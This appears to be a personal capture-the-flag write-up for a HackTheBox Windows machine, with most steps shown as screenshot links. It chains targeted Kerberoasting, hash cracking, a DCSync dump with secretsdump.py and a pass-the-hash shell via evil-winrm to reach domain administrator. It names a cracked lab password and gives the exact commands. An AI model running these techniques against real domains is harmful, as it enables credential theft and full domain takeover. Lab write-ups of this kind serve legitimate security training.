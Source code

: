 ![[HackTheBox/Windows/attachments/Pasted image 20250525001320.png]]

Check what outbound object control ethan has

![[HackTheBox/Windows/attachments/Pasted image 20250525001359.png]]
- ethan can dcsync the domain so we should try to get ethan


check how to abuse emily's genericwrite over ethan

![[HackTheBox/Windows/attachments/Pasted image 20250525001530.png]]

### Targeted Kerberos

GitHub Repo: https://github.com/ShutdownRepo/targetedKerberoast

```
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
```

Execute the targeted kerberoast 

![[HackTheBox/Windows/attachments/Pasted image 20250525001838.png]]

If clock skew too great run

```
sudo ntpdate 10.10.11.42
```

We get a TGT for ethan
![[HackTheBox/Windows/attachments/Pasted image 20250525002004.png]]

#### back to hashcat to crack the hashie

![[HackTheBox/Windows/attachments/Pasted image 20250525002115.png]]

The hash cracked to `limpbizkit`

Validate creds using nxc (he's not an admin)

![[HackTheBox/Windows/attachments/Pasted image 20250525002225.png]]

### Secretsdump.py

```
secretsdump.py administrator.htb/ethan@10.10.11.42
```
- paste in password

We get admin hashie 

![[HackTheBox/Windows/attachments/Pasted image 20250525002520.png]]

### Priv Esc 

#### evil-winrm
```
evil-winrm -i 10.10.11.42 -u administrator -H <HASHIE>
```

![[HackTheBox/Windows/attachments/Pasted image 20250525002624.png]]

⭐got root⭐